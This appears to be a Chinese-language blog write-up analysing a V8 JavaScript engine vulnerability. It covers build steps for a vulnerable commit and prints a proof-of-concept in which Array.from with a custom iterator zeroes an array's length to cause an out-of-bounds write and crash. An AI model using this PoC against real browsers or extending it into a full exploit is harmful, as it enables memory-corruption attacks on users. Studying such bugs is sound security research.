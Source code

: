 **v8环境搭建**

```
#回溯版本到包含漏洞版本
$ git reset --hard 1dab065bb4025bdd663ba12e2e976c34c3fa6599
$ gclient sync
#分别编译Debug和Release版本
$ tools/dev/v8gen.py x64.debug 
$ ninja -C out.gn/x64.debug d8
$ tools/dev/v8gen.py x64.release
$ ninja -C out.gn/x64.release d8
```

**diff**

查看和parent版本的diff文件

[![](./img/199702/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/WK1vPc.png)



## POC分析

```
let oobArray = [];                                //创建了一个oobArray数组对象
let maxSize = 1028 * 8;                        //8244            
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ =&gt; ( //实现了一个迭代器
  {
    counter : 0,
    next() {
      let result = this.counter++;
      if (this.counter &gt; maxSize) {
        oobArray.length = 0;                                            //在迭代器中将oobArray.length置零
        return {done: true};
      } else {
        return {value: result, done: false};
      }
    }
  }
) });
//%DebugPrint(oobArray);
//%SystemBreak();
oobArray[oobArray.length - 1] = 0x41414141;                //触发crash
```

**poc分析需要一定的JS基础，我已经把自己整理的一些基础写在文章后面了，和我一样0基础的读者可以先去看一下**

**length置零**

JSArray数组置零是poc的关键部分，让我们看一下JSArray的length置零的效果。

```
var a=['migraine','sudo'];
%DebugPrint(a);
a.length=0;
%DebugPrint(a);
```
